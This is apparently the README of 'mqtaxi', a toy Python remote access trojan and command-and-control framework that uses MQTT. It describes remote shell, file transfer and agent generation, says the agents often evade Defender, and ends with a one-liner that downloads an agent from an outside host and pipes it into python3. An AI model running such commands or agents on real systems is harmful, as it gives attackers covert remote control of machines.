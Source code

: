 # mqtaxi
### Experimental Python mqtt RAT/C2/Etc

This is a **toy** not meant for real Red Team engagements.  However I randomly make updates or add features to test the useability of mqtt as a transport mechanism for offensive use.  Collaboration on this project is welcome.

![Screenshot from 2022-11-21 12-45-32](https://user-images.githubusercontent.com/36344197/203133130-4aadeecc-7b3f-47c5-a5ea-8e8412f4de46.png)

The idea comes from using existing and trusted transport methods to achieve nefarious goals.  Mqtt's pub/sub type method of communication is perfectly situated for this and is common especially with iot type devices.  Mosquitto mqtt is easy to set up and also supports using forwarders.

Using mqtt as a remote shell mechanism has been done before and isn't anything new, however I wanted to attempt to give it a more polished interface as seen in many other C2 type frameworks.

---

**Current status:**

Mqtt connection is negotiated with paho.mqtt Python library

The client allows for typical creation of listeners, however the listener is actually a mqtt server that is either public or privately hosted using either tcp or websockets.  The mqtt server itself is just a standard Mosquitto mqtt server however I have included a default.conf and install script to get it running quickly.

![Screenshot from 2022-11-21 12-51-24](https://user-images.githubusercontent.com/36344197/203134494-9bb2e419-83e5-40fe-a514-4274c72dfb2e.png)

The client has the ability to connect to an agent to run pub/sub commands and see responses from terminal as well as Upload/Download functionality.  However as mentioned previously this is very much a work in progress.

![Screenshot from 2022-11-21 12-48-18](https://user-images.githubusercontent.com/36344197/203134445-663f5f10-3c89-4d56-9293-1ffed4da409d.png)

Python agents are generated using the 'generate' command within the config menu depending upon which listener you have activated using 'uselistener'.  I would like to add many more agents besides Python based.

![Screenshot from 2022-11-21 12-51-53](https://user-images.githubusercontent.com/36344197/203135028-4b2aba7e-2a57-4a93-9263-80442241d025.png)

---

**Some notes:**
- It is bloated and needs work
- It uses Python agents
- Doesn't follow standard accepted Python styles of coding, oops.
- It currently works, and isn't detected with Defender most of the time. (Please don't upload agents to virustotal)

**Listener Features:**
- Multi handler with Mosquitto mqtt pub/sub listener
- SSL TCP (mqtts://) or Websockets (wss://)
- Supports user/pass for authentication
- Supports ACL restrictions per topic

**Agent Features:**
- Remote shell (needs work or complete rewrite with pty or something similar, however currently works)
- Upload / Download
- Linux and Windows agents

**Client Features:**
- Add listeners (public or private)
- Generate agents per activated listener
- Session listing and connection
- Pub/Sub content is encrypted from MQTaxi to agent and visa versa, however, it is a python agent so...

**Work Needed:**
- Remove bloat
- Add jitter
- Add agents that use different languages besides Python
- Python agent pty.fork possibly
- Complete overhaul?  Who knows
- Include install script for mqtt forwarder
- Implement mqtt QoS and Last Will & Testament

**Execution of agent:**

The Python agent can be executed on a linux host with something like..

`yes|pip3 install paho.mqtt;nohup curl -s -X GET -H 'file:doit.py' https://my.hosted.something.com/3_tcp_lin.py|python3&exit`




	
